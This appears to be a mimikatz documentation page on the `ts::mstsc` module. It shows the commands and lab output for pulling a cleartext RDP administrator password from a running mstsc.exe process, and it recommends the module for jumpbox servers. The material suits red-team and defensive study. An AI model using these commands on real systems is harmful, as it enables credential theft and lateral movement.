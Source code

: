 # mstsc

`ts::mstsc` can be used to extract cleartext credentials from the mstsc process (client side)

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # ts::mstsc
!!! Warning: false positives can be listed !!!

| PID 2992      mstsc.exe (module @ 0x000000000055F6F0)

ServerName                                [wstring] '192.168.0.239'
ServerFqdn                                [wstring] ''
UserSpecifiedServerName                   [wstring] '192.168.0.239'
UserName                                  [wstring] 'administrator'
Domain                                    [wstring] 'hacklab'
Password                                  [protect] 'Super_SecretPass1!'
SmartCardReaderName                       [wstring] ''
PasswordContainsSCardPin                  [ bool  ] FALSE
ServerNameUsedForAuthentication           [wstring] '192.168.0.239'
RDmiUsername                              [wstring] 'hacklab\administrator'
```

{% hint style="warning" %}
It must be noted that an RDP session must be running in order to retrieve credentials via `ts::mstsc`. It comes in handy in jumpbox servers!
{% endhint %}

_(Demonstration target is a Windows 10 Pro)_
